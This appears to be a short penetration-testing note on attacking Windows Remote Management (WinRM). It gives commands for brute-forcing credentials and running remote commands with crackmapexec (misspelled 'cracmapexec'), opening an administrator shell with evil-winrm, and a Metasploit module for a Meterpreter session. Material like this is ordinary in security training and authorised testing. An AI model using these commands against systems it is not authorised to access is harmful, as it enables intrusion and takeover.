 - **tags:** #WinRM
---------------------------
# WinRM
Windows Remote Management (*WinRM*) is a Windows remote management protocol that can be used to facilitate remote access with Windows system over HTTP(s). WinRM typically uses TCP port *5985* and *5986* (HTTPs).
# Brute Force Attack
We are going to use *crackmapexec* to perform a brute-force attack on the target.
```
cracmapexec winrm <ip> -u username/wordlist -p wordlist
```
We can also take advantage of *crackmapexec* to execute commands on the target system.
```bash
cracmapexec winrm <ip> -u username -p password -x "command"
```
Having found the correct credentials it is now time to obtain a shell using a tool called *evil-winrm*:
```bash
evil-winrm.rb -u administrator -p 'password' -i ip
```
Finally, we can also use *Metasploit* to gain a *Meterpreter* using the `windows/winrm/winrm_script_exec` module.